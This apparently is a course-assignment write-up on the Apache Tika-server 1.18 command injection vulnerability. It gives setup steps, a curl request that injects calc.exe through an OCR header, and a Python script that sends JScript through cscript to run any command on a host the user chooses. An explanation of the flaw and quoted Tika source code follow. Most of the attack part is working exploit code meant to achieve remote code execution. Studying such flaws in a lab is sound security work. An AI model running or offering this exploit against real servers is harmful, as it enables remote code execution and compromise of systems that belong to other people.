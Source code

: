 # PS
- Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environmental Setup
Download the vulnerable version of the tika-sever at https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the server.  
Command: java -jar tika-server-1.17.jar

# Exploit Code
## Exploit-1: Command Execution
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

## Exploit-2: JScript Execution
``` python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"}

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
	requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```

# Explanation: 
## Exploit-1
The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers. The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with **"X-Tika-OCR" prefix**, the server code invokes **processHeaderConfig()** function which parses the HTTP request and constructs the **TesseractOCRConfig** object. The **doOCR()** function then uses the TesseractOCRConfig object to construct the command for **ProcessBuilder**. However, the doOCR() function while constructing the command appends the **OCRTesseractPath (i.e. calc.exe)** with **tesseract.exe**. The resultant command looks like *"calc.exe"tesseract.exe ..."*. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command calc.exe.  

The command constructed by the doOCR() function is as follows.  
*"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0*  
This is exploited in Exploit-1 code.

## Exploit-2
The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is **".tmp"**. Also, uploading an image file with some code would due to verification of the **magic bytes** of the image. The work around is to use **Cscript** that takes the first argument as the script and allows to use **"//E:engine" flag** to specify the script engine so that the file extension does not matter. Also, setting the content type to **"image/jp2"** forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like  
*"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0*  
This is exploited in Exploit-2 code.

# Server Code Snippets
**TikaResource.java** - https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

``` java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

**TesseractOCRParser.java** - 
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

``` java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```
